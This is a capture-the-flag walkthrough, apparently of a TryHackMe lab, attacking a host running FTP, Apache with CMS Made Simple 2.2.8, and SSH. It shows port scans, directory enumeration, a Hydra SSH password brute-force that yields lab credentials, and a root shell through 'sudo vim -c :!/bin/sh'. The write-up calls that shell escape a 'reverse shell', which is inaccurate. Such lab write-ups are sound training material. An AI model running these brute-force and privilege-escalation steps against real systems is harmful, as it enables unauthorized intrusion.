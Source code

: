 # SimpleCTF
**IP:10.10.170.79**

## Recon

### PortScanning
```sh
└─$ nmap -sS -sV -O 10.10.170.79 >> ports.txt


Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-25 15:40 EDT
Nmap scan report for 10.10.170.79
Host is up (0.18s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

```
**Aggressive**
```sh

└─$ sudo nmap -A -p 21,80,2222 10.10.170.79 >> aggressive_ports.txt


PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.88.30
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 

```

> ### **ftp: anonymous**  
> ### **http: robots.txt**   
> ### **ssh:  OpenSSH 7.2p2**  

### Directory Enum
```sh
└─$ gobuster dir -u http://10.10.170.79/ -w /usr/share/wordlists/dirb/common.txt -o directory.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.170.79/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 291]
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 300]
/simple               (Status: 301) [Size: 313] [--> http://10.10.170.79/simple/]

```

- `http://10.10.170.79/simple/` for this one we are getting a webserver 

![alt text](/SimpleCTF/Photos/image.png)

- There is a Username here

![alt text](/SimpleCTF/Photos/image1.png)

- UserName is `mitch`
- It could be a username for the ssh login

- After scrolling a little bit I found the version of the site generator.

![alt text](/SimpleCTF/Photos/image2.png)

- **CMS Made Simple version 2.2.8** 

### SearchSploit

```sh
└─$ searchsploit 'CMS Made Simple 2.2.8'
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                        |  Path
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection                                                                                              | php/webapps/46635.py
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                    
```

```sh
└─$ searchsploit -m 46635                     
  Exploit: CMS Made Simple < 2.2.10 - SQL Injection
      URL: https://www.exploit-db.com/exploits/46635
     Path: /usr/share/exploitdb/exploits/php/webapps/46635.py
    Codes: CVE-2019-9053
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/bc-here/CTF{}/THM/simpleCTF/46635.py


```
```sh
└─$ python3 46635.py -u http://10.10.170.79/simple/ -w /usr/share/wordlists/rockyou.txt
  File "/home/bc-here/CTF{}/THM/simpleCTF/46635.py", line 25
    print "[+] Specify an url target"
    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)                                
```

- **As this is not giving us anything we can try our UserName with the rockyou.txt by hydra to bruteforce shh login**

### Hydra
```sh
└─$ hydra -s 2222 -l mitch -P /usr/share/wordlists/rockyou.txt -t 4 ssh://10.10.170.79
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-25 18:14:59
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.170.79:2222/
[2222][ssh] host: 10.10.170.79   login: mitch   password: secret

```


> ### UserName: mitch
> ### password: secret

### SSH login
```sh
└─$ sudo ssh mitch@10.10.170.79 -p 2222
[sudo] password for ****** : 
mitch@10.10.170.79's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Thu Jul 25 23:31:52 2024 from 10.17.88.30
$ ls
user.txt
$ cat user.txt
G00d j0b, keep up!

```

> ### user.txt : `G00d j0b, keep up!`

```sh
$ cd /home
$ ls
mitch  sunbath

```
> ### another User : `sunbath`

### PrivEsc

```sh
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

```
- **The vim has the root permission**

```sh
$ sudo vim -c ':!/bin/sh'

# cd /root                         
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!

```
- From [GTFOBINS](https://gtfobins.github.io/gtfobins/vim/#sudo) we found the reverse shell for vim

> ### root.txt : `W3ll d0n3. You made it!`
